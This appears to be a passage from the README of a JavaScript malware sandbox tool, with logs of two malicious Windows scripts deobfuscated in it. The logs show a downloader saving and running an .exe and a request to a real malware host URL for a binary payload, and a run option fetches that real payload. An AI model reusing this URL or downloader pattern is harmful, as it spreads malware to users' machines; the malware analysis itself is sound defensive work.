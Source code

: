     29 Sep 23:17:21 - ADODB_Stream[11].Position = '0'
    29 Sep 23:17:21 - ADODB_Stream[11].SaveToFile(Special_Folder__2\w8z05i7y2.exe, 2)
    29 Sep 23:17:21 - ADODB_Stream[11].content.get() => aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... (truncated)
    29 Sep 23:17:21 - ADODB_Stream[11].Close()
    29 Sep 23:17:21 - ActiveXObject(WScript.Shell)
    29 Sep 23:17:21 - Created: WScript.Shell[12]
    29 Sep 23:17:21 - WScript.Shell[12].Run(Special_Folder__2\w8z05i7y2.exe, undefined, undefined)
    29 Sep 23:17:21 - Returning: 'undefined'
    29 Sep 23:17:21 - ==> Cleaning up sandbox.
    29 Sep 23:17:21 - ==> Script execution finished, dumping sandbox environment to a file.
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].ResponseBody.get() => aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... (truncated)
    29 Sep 23:17:21 - Saving: output/Special_Folder__2_w8z05i7y2.exe
    29 Sep 23:17:21 - Generated file saved
    29 Sep 23:17:21 - The sandbox context has been  saved to: sandbox_dump_after.json

Seems to be a "standard" behaviour of deobfuscation in order to finally download an exe binary and execute it.

If we want to get the real payload, run it with '--down=y':

     node jailme.js --down=y  malware/20160929/416e32e1b22ecb8f360ff841b87d77ac9450fda24458ce4e70abb35ff4d242a3.js > malware/20160929/416e32e1b22ecb8f360ff841b87d77ac9450fda24458ce4e70abb35ff4d242a3.out 
     
Log file: [malware/20160929/416e32e1b22ecb8f360ff841b87d77ac9450fda24458ce4e70abb35ff4d242a3.out](malware/20160929/416e32e1b22ecb8f360ff841b87d77ac9450fda24458ce4e70abb35ff4d242a3.out)

### Example: Analysing Norri.js ###

Taking malicious JavaScript from malwr.com: [Norri.js](https://malwr.com/analysis/Mjc0ZjUyMjZhYzg4NDJlYmEwNzBkMTAxODA5NGYwZGM/)

Run:

    node jailme.js --down=y malware/20160929/cb7fc381f6f7600ca0060764ae117482cae3a0fa02db4467604a55c57d069124.js

you get:

    30 Sep 01:02:11 -  => Executing: malware/20160929/cb7fc381f6f7600ca0060764ae117482cae3a0fa02db4467604a55c57d069124.js
    30 Sep 01:02:11 - Strict mode: false
    30 Sep 01:02:11 - Calling eval() no.: 1
    30 Sep 01:02:11 - WScript.CreateObject(WScript.Shell)
    30 Sep 01:02:11 - Created: WScript.Shell[9]
    30 Sep 01:02:11 - WScript.SpecialFolders(Desktop)
    30 Sep 01:02:11 - WScript.CreateShortcut(Desktop/?eno.lnk)
    30 Sep 01:02:11 - Created: WshShortcut[10](Desktop/?eno.lnk)
    30 Sep 01:02:11 - WshShortcut[10](Desktop/?eno.lnk).FullName.get() => Desktop/?eno.lnk
    30 Sep 01:02:11 - WScript.CreateObject(Scripting.FileSystemObject)
    30 Sep 01:02:11 - Scripting.FileSystemObject[11] created.
    30 Sep 01:02:11 - WScript.CreateObject(WScript.Shell)
    30 Sep 01:02:11 - Created: WScript.Shell[12]
    30 Sep 01:02:11 - WScript.CreateObject(MSXML2.XMLHTTP)
    30 Sep 01:02:11 - Created: MSXML2.XMLHTTP[13]
    30 Sep 01:02:11 - WScript.CreateObject(ADODB.Stream)
    30 Sep 01:02:11 - Created: ADODB_Stream[14]
    30 Sep 01:02:11 - Scripting.FileSystemObject[11].GetSpecialFolder(2) => TemporaryFolder/
    30 Sep 01:02:11 - Scripting.FileSystemObject[11].GetTempName() => TempFile[15]
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].open(GET,http://girlx.tornadodating.ru/js/boxun4.bin,0)
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13] string true
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].async = 'false'
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].async.get() => false
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].send(undefined)
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].onreadystatechange(), readyState = 4 length: 196608 status: 200